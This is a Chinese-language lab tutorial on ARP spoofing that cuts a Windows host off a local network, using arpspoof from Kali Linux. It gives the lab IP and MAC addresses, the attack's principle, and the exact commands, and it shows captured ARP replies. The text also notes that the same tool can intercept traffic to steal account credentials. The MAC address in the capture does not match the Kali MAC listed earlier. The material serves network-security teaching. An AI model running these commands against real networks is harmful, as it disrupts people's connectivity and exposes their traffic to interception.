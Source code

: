# ARP断网攻击

## 1.课前准备

kali 作为ARP攻击机，192.168.70.3  MAC地址：00:0c:29:5f:7e:d4

win10 作为被攻击方，192.168.70.130   MAC地址：00:0c:29:8e:da:0f 

网关（路由器），192.168.70.2    MAC地址：00:50:56:f3:07:7c

需要注意的时，两台主机需要在同一个局域网，并且网络通畅。

```
ping www.mashibing.com
```

计算上网的过程示意图：

![计算机上网示意图](https://image.201068.xyz/assets/计算机上网示意图.png)

## 2.arp断网攻击原理

他的原理是：向目标主机不断的发送**ARP报文**，然后将其报文中的**网关Mac地址**设置成为**攻击机的主机MAC地址**，
然后目标主机想要访问网络发送数据包时，都会发送到攻击机，然后攻击机只需要**做一个丢弃数据包的**
**命令**，就可以断掉目标主机的网络了。

## 3.arpspoof介绍:

arpspoof [spuːf]  是一个好用的ARP欺骗工具，攻击者通**过毒化受害者ARP缓存**，将网关MAC替换为攻击者MAC，然后攻击者可截获受害者发送和收到的数据包，从而获取受害者账户、密码等相关敏感信息。Kali linux中自带了该工具。

命令使用讲解

```
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
-i：指定网卡
-c:攻击机的IP
-t 目标机器的IP
-r：网关IP
```

## 4.具体攻击步骤：

**1.首先确保两台机器在同一局域网络下，并且可以互相通讯。**

​	1.1查看kali的ip：

```
ip a
```

​	1.2 查看windows的ip：

```
ipconfig /all
```

​	1.3 windows ping kali:

```
ping 192.168.70.3
```

​	1.4 win10 查看arp表，记录网关的信息

```
arp -a |findstr 192.168.70.2
```

**2.kali进行断网攻击**

```
arpspoof -i eth0 -r 192.168.70.2 -t 192.168.70.130
-i:指定网卡
-r:指定网关ip
-t:指定靶机ip
```

**3.win10 查看网络连接 和 kali 的网络链接**

```
ping www.mashibing.com
```

**4.win10查看此时的arp表**

```
arp -a 
或者
arp -a |findstr 192.168.70.2
```

**5.结束断网攻击**

```
ctrl+C
```

**6.win10重新查看网络状态**

```
ping www.mashibing.com
```

**7.win10重新查看arp表**

```
arp -a |findstr 192.168.70.2
```

## 5.ARP断网攻击原理深入分析

**1.ARP攻击断网的过程 **

```
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.70.2 is-at 0:c:29:fc:66:46
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.70.130 is-at 0:c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.70.2（网关）  192.168.70.130 的mac地址是 00:0c:29:fc:66:46
ARP攻击机器 不停的在告诉 192.168.70.130（靶机） 192.168.70.2 的mac地址是 00:0c:29:fc:66:46

Ctrl+C停止攻击后
0:c:29:fc:66:46 1c:69:7a:a4:cf:92 0806 42: arp reply 192.168.70.2 is-at e4:3a:6e:35:98:0
0:c:29:fc:66:46 e4:3a:6e:35:98:0 0806 42: arp reply 192.168.70.130 is-at 1c:69:7a:a4:cf:92
ARP攻击机器 重新告诉 192.168.70.130（靶机） 192.168.70.2 的mac地址是 e4:3a:6e:35:98:0
ARP攻击机器 重新告诉 192.168.70.2（网关）  192.168.70.130 的mac地址是 1c:69:7a:a4:cf:92
```

**2.ARP断网原理图：**

![断网攻击原理图](https://image.201068.xyz/assets/断网攻击原理图.png)

## 6.课堂小结

请看思维导图：ARP断网攻击课程总结.xmind